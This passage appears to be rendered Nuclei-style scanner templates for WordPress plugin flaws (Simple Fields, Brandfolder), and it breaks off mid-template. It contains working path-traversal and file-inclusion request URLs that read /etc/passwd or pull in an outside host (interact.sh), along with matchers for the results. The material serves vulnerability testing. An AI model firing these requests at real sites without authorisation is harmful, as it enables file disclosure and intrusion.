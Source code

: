 - {{BaseURL}}/wp-content/plugins/simple-fields/simple_fields.php?wp_abspath=/etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# WordPress Brandfolder - Open Redirect (RFI & LFI)

## Description

- WordPress Brandfolder is vulnerable to remote/local file inclusion and allows remote attackers to inject an arbitrary URL into the 'callback.php' endpoint via the 'wp_abspath' parameter which will redirect the victim to it.

- severity - medium
- tags - wp,brandfolder,edb,wpscan,wp-plugin,redirect,rfi,wordpress,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/brandfolder/callback.php?wp_abspath=https://interact.sh/

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh._$

---

# Wordpress Brandfolder - Remote/Local File Inclusion

## Description

- WordPress Brandfolder allows remote attackers to access arbitrary files that reside on the local and remote server and disclose their content.
- severity - high
- tags - lfi,rfi,edb,wordpress,wp-plugin

## Requests
